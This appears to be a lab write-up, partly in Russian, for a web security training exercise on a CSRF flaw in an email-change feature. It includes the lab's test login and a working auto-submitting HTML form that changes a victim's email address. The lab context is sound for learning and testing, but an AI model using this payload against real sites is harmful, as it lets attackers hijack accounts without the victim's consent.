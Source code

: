 # CSRF vulnerability with no defenses
APPRENTICE

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

## Подсказки
You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

## Решение
Обязательно использовать email, не занятый другими пользователями.
```
<html>
<body>
    <form action="https://0ae400c9049be667808412e600390037.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="wiener123@normal-user.net" />
    </form>
    <script>document.forms[0].submit();</script>
</body>
</html>
```
Deliver exploit to victim -> задание выполнено.
